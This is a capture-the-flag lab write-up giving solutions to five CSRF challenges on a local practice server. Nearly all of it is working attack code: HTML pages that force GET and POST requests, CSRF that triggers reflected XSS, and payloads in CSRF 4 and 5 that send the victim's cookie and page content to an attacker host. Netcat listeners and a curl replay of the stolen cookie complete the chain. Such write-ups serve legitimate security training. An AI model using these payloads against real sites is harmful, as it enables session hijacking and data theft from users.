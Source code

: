 # CSRF

## CSRF 1

Create a html page to serve, which makes the GET request via **top-level navigation**:

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/publish'"></body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

## CSRF 2

Create a html page to serve, which makes the POST request via **self-submitting form**:

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
    <form action="http://challenge.localhost/publish" method="POST"></form>
</body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

## CSRF 3

Triggering XSS through CSRF

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>alert(&quot;PWNED&quot;)</script'+'>'"></body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

## CSRF 4

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>window.location.href=&quot;http://hacker.localhost:5050?cookie=&quot;%2bdocument.cookie</script'+'>'"></body>
</html>
```

Start the attacker server:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

Listen for cookie:

```shell
nc -l -v hacker.localhost 5050
```

Use the stolen cookie:

```shell
curl -v --cookie "<stolen cookie>" http://challenge.localhost
```

## CSRF 5

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>fetch(&quot;http://challenge.localhost/&quot;).then(res=>res.text()).then(data=>{window.location.href=&quot;http://hacker.localhost:5050?page=&quot;%2bencodeURIComponent(data);});</script'+'>'"></body>
</html>
```

Start the attacker server:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

Listen for the page content:

```shell
nc -l -v hacker.localhost 5050
```
